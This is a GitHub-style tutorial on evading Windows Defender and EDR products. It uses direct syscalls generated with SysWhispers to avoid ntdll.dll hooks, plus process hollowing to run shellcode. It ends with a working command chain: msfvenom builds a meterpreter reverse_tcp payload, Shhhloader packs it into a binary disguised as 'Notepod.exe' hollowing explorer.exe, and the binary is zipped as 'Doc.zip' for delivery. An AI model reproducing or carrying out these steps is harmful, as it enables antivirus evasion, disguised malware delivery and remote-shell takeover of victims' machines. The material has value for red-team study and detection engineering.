 # Defeat Windows Defender using direct Syscall

## Protection rings


![image](https://user-images.githubusercontent.com/76106120/151554524-e5d661f2-6d22-4051-a2bf-40367cf6ac2f.png)


Windows Operating System as some security rings in order to avoid any one to access critical memory region.
There is the user-mode where the applications are running (ring 3) and the kernel mode (ring 0) with the critical system components.
Some resources cannnot be accessed by specific application in order to prevent malicious behavior.

Application are isolated from critical memory section and system resources are running in Kernel Mode.
To make the translation between user mode and kernel mode there is an dll called ntddl.dll.
Ntddl.dll gives the right Api call perform by the user mode, thanks to that the kernel can make the right system call.

#### In the image just below, you can see how the user mode and the kernel mode interract :
 
![image](https://user-images.githubusercontent.com/76106120/151559138-3b33e231-e4a8-4af7-a561-c34278648b02.png)
 
 
The AV/EDR products knows that the sensitive spot is when the ntdll.dll give the syscall number to execute to the kernel mode.
If an AV/EDR recognize strange syscall, they will hook the API.
 
To bypass this, it is possible to make direct system call. We can execute system call without using the ntdll.dll.
This is where the SysWhisper projet will be useful to us. With syswhisper you are able to generate file Syscall.h who contain all the syscall of each windows operating system.
SysWhisper gives us all the syscall that we need for any type of os, with that we are able to make direct syscall as if they were normal Native API functions.
We do not need to pass thought the ntdll.dll, a therefore to pass under the radar of AV/EDR.

### Let's take an example :

If we want to use the NT system call CreateFile, we should call the NtCreateFile located in the ntdll.dll. But instead of this we are directly invoking SysNtCreateFile.

![image](https://user-images.githubusercontent.com/76106120/151571082-cb09f257-e154-4329-9f3f-13b1e06cc1ca.png)

 
The AV/EDR product could not hook the API because we are not using API calls, we are using direct syscall.
So the AV/EDR cannot intercept our attemps and we would have opened the succesfully 🙂

### Process Hollowing

Now that we are able to use NT system call under the radar of AV/EDR products.
We want to run our shellcode.

How it's working:

1) Create the target process (ex: explorer.exe) in a suspended state.

2) Parse the create process in order to find the EntryPoint

3) Then Write the shellcode to the EntryPoint and resume the thread execution.

for futher details check (https://github.com/snovvcrash/NimHollow)
 
## Shhhloader project (https://github.com/icyguider/Shhhloader):

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o tesssssst.bin
 
> ./Shhhloader.py tesssssst.bin -p explorer.exe -o Notepod.exe
 
> zip Notepod.exe Doc.zip
 
 - Drag and drop .zip in your Windows machine.
 - Start meterpreter listener and set payload to windows/x64/meterpreter/reverse_tcp (Shhhloader only support staged payload, so you have to provide it the right one !!!)
 - run the Notepod.exe
 
![image](https://user-images.githubusercontent.com/76106120/151585618-3b3790d7-e591-4c40-976e-5d8e6c5bfef4.png)

 
 
 
 




